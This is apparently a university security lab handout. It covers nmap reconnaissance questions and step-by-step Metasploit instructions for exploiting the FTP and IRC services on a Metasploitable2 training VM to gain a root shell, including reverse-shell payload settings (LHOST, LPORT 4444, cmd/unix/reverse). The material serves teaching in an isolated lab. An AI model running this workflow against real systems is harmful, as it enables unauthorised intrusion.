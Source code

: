 # ACIT 4630 – Lab 2 – Vulnerability Scanning

## Instructions: 
We are going to use the Kali VM and the Metaploitable2 VM we created in the previous lab. 

An attacker or a pen tester goes through the reconnaissance phase first to look at the overall environment, identify specific targets, and focus on target enumeration. 

### Scanning Vulnerability using OpenVAS

### Host discovery and scanning using nmap 
- (Q1) What is the purpose of the -sn option in nmap? 
- (Q2) In the previous lab, you used nmap to find what services are running on what ports in the Metasploitable2 VM. Which nmap option gives you the version of those services? why is it important for vulnerability scanning? 
- (Q3) Try scanning Metasploitable2 VM from your Kali machine using -A option with nmap. What additional information about the open ports on Metasploitable2 VM can you get by using this option?

### Exploring Vulnerabilities 
After we complete enumerating (retrieving and collecting services, usernames, computers, ... on a network) Metasploitable 2, we need to look for known vulnerabilities for operating systems and services running on this machine. Do the following steps
for **ftp (on port 21)** and irc services running on Metasploitable 2: 
- From your previous nmap results (Services with their version), find the software and the version for the service and Google this info to see if this specific version of the software has any known vulnerabilities. 
-	Nmap has a comprehensive library of scripts that provide many advanced capabilities. Find and use nmap with a [script](https://nmap.org/nsedoc/scripts/) that scans a target for a vulnerable version of these softwares. 
    - Hint: use --script option 
    - Hint: You should provide the port the service is running on
- (Q4) What vulnerabilities did you find – both from Google and using the script? 

### Instructions for Exploiting FTP Port on Metasploitable2 Using Kali Linux
**Objective:** Gain root access to a shell on the target endpoint (Metasploitable2).
**Requirements:** Both Kali Linux and Metasploitable2 are on the same NAT Network.
#### Scan the Target with Nmap
1.	Open a terminal on your Kali Linux machine.
2.	Use Nmap to discover open ports, services, and their versions on Metasploitable2:
```sh
nmap -sV [TARGET_IP]
```
#### Open Metasploit Framework
1.	Launch Metasploit Framework by typing:
```sh
msfconsole
```
### Exploit the FTP Service
1.	Search for the FTP exploit module based on the service version found in the Nmap scan:
```sh
search ftp/[VERSION]
```
Replace [VERSION] with the version number identified by Nmap.

2.	Select the appropriate FTP module:
```sh
use [EXPLOIT_PATH]
```
Replace [EXPLOIT_PATH] with the path of the chosen exploit.
3.	Set the RHOSTS option to the target IP:
```sh
set RHOSTS [TARGET_IP]
```
4.	Run the exploit:
```sh
exploit
```
5.	If successful, you will gain access to the shell. To verify, run:
```sh
whoami
```
6. Check the shell type and IP:
```sh
echo $0
ifconfig
```

### Instructions for Exploiting IRC Port on Metasploitable2 Using Kali Linux

#### Exploit the IRC Service
1.	Search for the IRC exploit module based on the service version:
```sh
search irc [VERSION]
```
Replace [VERSION] with the version number identified by Nmap.
2.	Select the appropriate IRC module:
```sh
use [EXPLOIT_PATH]
```
3.	Set the necessary options:
```sh
set RHOSTS [TARGET_IP]
set RPORT [IRC_PORT]
set LHOST [YOUR_IP]
set LPORT 4444
```
Replace [IRC_PORT] with the port number of the IRC service, [YOUR_IP] with your Kali machine IP, and 4444 is recommended local port for this exploit.
4.	Set the payload: you can see all the payloads by show payloads command.
```sh
set PAYLOAD cmd/unix/reverse
```
Replace [PAYLOAD_NAME] with the appropriate payload for the exploit.
5.	Run the exploit:
```sh
exploit
```
6.	Verify access by running:
```sh
whoami
echo $0
ifconfig
```

(Q5) Explain 3 above commands and their results.
Ensure each step is completed accurately to gain root access. If any step fails, review configurations or try different modules/payloads suited to the service versions found.


### Submission For Lab 2: 
- Create a report answering the questions in the lab above. 
- Add screenshots of exploit command and result of commands to verify the access (3 above and last commands); for each exploit (FTP and IRC)
- Submit your report to the Learning Hub in PDF format. 
